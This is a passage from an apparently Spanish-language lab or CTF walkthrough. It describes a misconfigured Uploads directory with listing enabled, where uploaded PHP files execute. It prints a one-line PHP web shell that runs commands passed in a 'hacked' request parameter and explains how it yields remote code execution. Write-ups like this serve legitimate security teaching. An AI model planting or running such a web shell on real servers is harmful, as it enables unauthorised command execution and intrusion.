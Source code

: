 >Nos encontramos con un directorio Uploads:

![\1](Attachments/Pasted%20image%2020250516151102.png)

>Al verlo en la web, vemos que esta mal configurado, la opción _Listing_ esta habilitada. En una vulnerabilidad de "Directory Listing" podemos ver el árbol de archivos de una web.

![\1](Attachments/Pasted%20image%2020250516152437.png)

>Así que podemos listar los archivos subidos desde "Upload.php" y acceder a ellos desde la web:

![\1](Attachments/Pasted%20image%2020250516152608.png)
_Sabemos que el php se ejecuta, ya que no se muestra el código en si (contenido) del archivo que subimos, si no su ejecución en php (imprimiendo por pantalla "Testing")_

>Vemos que no solamente podemos ver los archivos, si no que el código php se ejecuta.
>Esto se da porque el directorio "Uploads" esta mal configurado, no se comporta como directorio estático, si no que todo archivo subido a allí será ejecutado por el motor de PHP, mas adelante, al vulnerar el sistema, veremos un poco del código vulnerable. Por ahora, vamos a llegar a un RCE subiendo un archivo infectado.

```php
<?php
echo "<pre>" . shell_exec($_REQUEST['hacked']) . "</pre>";
?>
```

![\1](Attachments/Pasted%20image%2020250516154340.png)
_En php $_REQUEST recoge información de un parámetro "hacked", y la función "shell_exec" ejecuta lo proporcionado directamente en el sistema. Es decir, en teoría, si al parámetro le pasamos un valor “whoami”, $_REQUEST recogerá ese dato, y "shell_exec" lo ejecutara en el sistema, para finalmente (como todo está dentro de un “echo”) mostrarse en pantalla la respuesta del comando

